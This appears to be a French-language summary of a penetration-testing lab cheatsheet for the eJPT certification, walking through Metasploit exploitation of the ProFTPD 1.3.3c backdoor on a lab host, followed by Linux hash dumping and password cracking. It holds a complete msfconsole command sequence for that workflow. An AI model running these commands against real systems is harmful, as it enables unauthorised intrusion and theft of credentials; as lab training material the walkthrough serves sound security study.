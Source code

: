 ## 🎯 **Points clés de la cheatsheet :**

### **📋 Workflow étape par étape :**
1. **Reconnaissance** - nmap avec detection ProFTPD 1.3.3c
2. **Vulnérabilités** - scan vuln pour identifier la backdoor
3. **Préparation** - PostgreSQL + Metasploit
4. **Exploitation** - `exploit/unix/ftp/proftpd_133c_backdoor`
5. **Dump hashes** - `post/linux/gather/hashdump`
6. **Crack passwords** - `auxiliary/analyze/crack_linux`

### **🔧 Modules Metasploit détaillés :**
- **`exploit/unix/ftp/proftpd_133c_backdoor`** - Exploitation de la backdoor
- **`post/linux/gather/hashdump`** - Extraction des hashes système
- **`auxiliary/analyze/crack_linux`** - Cracking automatique des mots de passe

### **📊 Tableau des formats de hashes Linux :**
| Type | Préfixe | Module |
|------|---------|--------|
| MD5 | `$1$` | MD5=true |
| SHA-256 | `$5$` | SHA256=true |
| **SHA-512** | `$6$` | **SHA512=true** |

### **⚡ Commandes essentielles du lab :**
```bash
# Workflow complet
/etc/init.d/postgresql start
msfconsole -q
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS demo.ine.local
set LHOST 192.70.114.2
exploit -z

use post/linux/gather/hashdump
set SESSION 1
exploit

use auxiliary/analyze/crack_linux
set SHA512 true
run
```

### **🏆 Résultat attendu :**
- **Flag** : `password` (mot de passe root cracké)
- Accessible via la commande `creds` dans Metasploit

La cheatsheet couvre aussi les techniques alternatives (John, Hashcat) et la gestion avancée des sessions pour une approche complète ! Perfect pour l'eJPT ! 🎯